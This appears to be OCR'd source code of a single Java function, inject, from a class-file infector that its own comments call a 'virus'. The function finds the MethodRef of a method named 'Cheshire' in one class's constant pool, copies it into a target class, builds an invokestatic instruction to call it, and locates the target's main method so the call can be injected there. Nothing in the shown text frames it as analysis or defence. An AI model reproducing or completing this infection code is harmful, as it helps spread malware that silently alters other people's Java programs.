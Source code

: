 ```java
public static void inject(HashMap<String, Object> origin, HashMap<String, Object> destination){
    //Are there any functions called main?
    //Get the method, get the code attribute, extract code, place instruction and see if we can extend StackMapFrame
    //We should parse through the constant pool, look for the methodref with our method name and capture the index
    byte[][] constant_pool = (byte[][]) origin.get("constant_pool");
    int methodRefIndex;
    byte[] instruction_bytes = new byte[3];

    //Since our main virus method is never invoked in any of the methods we've copied, we need to copy the MethodRef
    //For that method manually.

    //Find the Constant Pool index of the MethodRef for our virus.
    for(int i = 0; i < constant_pool.length; i++){
        byte[] constant = constant_pool[i];

        if(constant[0] == (byte) 10){
            byte[] natindexbytes = new byte[2];
            System.arraycopy(constant, 3 , natindexbytes, 0, 2);
            int NameAndTypeIndex = (short) (((natindexbytes[0] & 0xFF) << 8) | (natindexbytes[1] & 0xFF));
            byte[] NameAndType = constant_pool[NameAndTypeIndex-1];
            byte[] nameindexbytes = new byte[2];
            System.arraycopy(NameAndType, 1, nameindexbytes, 0, 2 );
            int NameIndex = (short) (((nameindexbytes[0] & 0xFF) << 8) | (nameindexbytes[1] & 0xFF));
            String methodName = getUtf8Constant(NameIndex, origin);
            if(methodName.equals("Cheshire")){
                methodRefIndex = i+1;
                methodRefIndex = copyConstant(origin, methodRefIndex, destination);
                ByteBuffer bb = ByteBuffer.allocate(2);
                bb.putShort((short) methodRefIndex);
                byte[] index_bytes = bb.array();
                byte invokestatic = (byte) 184;
                instruction_bytes[0] = invokestatic;
                instruction_bytes[1] = index_bytes[0];
                instruction_bytes[2] = index_bytes[1];
                ArrayList<byte[]> inject_instructions = new ArrayList<byte[]>();
                inject_instructions.add(instruction_bytes);
                destination.put("inject_instructions", inject_instructions);
            }
        }
    }

    byte[][] methods = (byte[][]) destination.get("methods");
    for(int i = 0; i < methods.length; i++){
        ByteBuffer b = ByteBuffer.wrap(methods[i]);
        b.get(new byte[2]);
        int nameIndex = b.getShort();
        b.get(new byte[4]);
        String methodName = getUtf8Constant(nameIndex, destination);
        if(methodName.equals("main")){
            try {
                copyMethod((HashMap<String, Object>) destination.clone(), i, destination);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }
}
```